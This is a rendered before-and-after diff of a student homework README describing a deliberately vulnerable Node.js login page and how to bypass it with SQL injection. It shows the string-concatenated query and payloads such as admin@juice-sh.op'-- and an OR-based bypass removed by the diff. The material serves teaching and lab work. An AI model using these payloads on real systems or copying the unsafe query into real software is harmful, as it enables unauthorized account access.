

Before and after one commit to nirmalshah123/CSCE703-HW3, a Markdown page: README.md, the part around one of its changes. Shown at 84% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Update README with streamlined assignment documentation.
Co-authored-by: Cursor <cursoragent@cursor.com>

````diff
--- a/README.md
+++ b/README.md
@@ -77,8 +71,6 @@ The `/api/login` endpoint repeats the same rules before querying the database:
 - Requires `@` in email
 - Requires password length ≥ 8
 
----
-
 ## Sample Credentials
 
 | Email | Password | Role |
@@ -88,9 +80,7 @@ The `/api/login` endpoint repeats the same rules before querying the database:
 
 ---
 
-## Part 3 — SQL Injection Attack Documentation
-
-### Vulnerability
+## SQL Injection Attack
 
 The login endpoint in `server/server.js` builds SQL queries using **string concatenation**:
 
@@ -100,39 +90,18 @@ const query = `SELECT id, email, password, role FROM users WHERE email = '${emai
 
 User input is inserted directly into the query without sanitization or parameterized statements, making the application vulnerable to **SQL Injection**.
 
-### Attack Steps
-
-#### Step 1 — Start the application
-
-```bash
-npm install
-npm run init-db
-npm start
-```
-
-Open **http://localhost:3000**.
-
-#### Step 2 — Enter the SQL injection payload
-
-Because both client-side and server-side validation require `@` in the email, use a comment-based bypass that still satisfies that rule.
-
-In the **Email** field, enter:
+Because both client-side and server-side validation require `@` in the email, using a comment-based bypass  satisfies the rule.
+We can use the following email ID:
 
 ```
 admin@juice-sh.op'--
 ```
 
-In the **Password** field, enter any valid password (8+ characters):
+In the **Password** field, any valid password would work (8+ characters):
 
 ```
 anything1
 ```
-
-#### Step 3 — Submit the form
-
-Click **Log in**.
-
-#### Step 4 — Observe the result
 
 The injected query becomes:
 
@@ -143,19 +112,3 @@ WHERE email = 'admin@juice-sh.op'--' AND password = 'anything1'
 
 The `--` comments out the password check, so only the email condition is evaluated. The server returns the admin account without a valid password.
 
-**Expected success message:**
-
-```
-Welcome, admin@juice-sh.op! Role: admin
-```
-
-You have logged in as the **admin** without knowing the real admin password.
-
-### Alternative Payload (OR-based bypass)
-
-**Email:**
-
-```
-x' OR '1'='1' -- @x.com
-```
-
````
Also changed, not shown: other parts of README.md (+3 -34 lines).
